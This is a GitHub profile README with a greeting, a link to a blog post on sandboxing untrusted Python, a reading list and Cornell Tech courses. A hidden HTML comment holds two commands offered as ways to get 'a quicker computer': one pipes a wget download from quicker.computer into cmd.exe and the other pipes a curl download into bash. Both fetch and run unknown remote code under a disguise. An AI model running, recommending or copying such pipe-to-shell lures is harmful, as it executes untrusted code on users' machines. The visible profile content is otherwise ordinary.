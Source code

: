 ## Welcome!
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning/Projects
- 💻 Checkout my blog post: [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) 


### Current Reading list
- 📖 [Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)
- 📖[Surely Your Joking Mr.Feynman!](https://en.wikipedia.org/wiki/Surely_You%27re_Joking,_Mr._Feynman!)
- 📖[Efficient Processing of Deep Neural Networks](https://link.springer.com/book/10.1007/978-3-031-01766-7)

### Graduated M.Eng ECE at Cornell Tech in NYC:
#### Fall Courses:
- Applied Digital Signal Processing and Communications
- ASIC Design
- Applied Machine Learning

#### Spring Courses:
- Neuromorphic Computing - Chip Design (PHD)
- Machine Learning Hardware Systems
- Sustainable Computing (PHD)


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
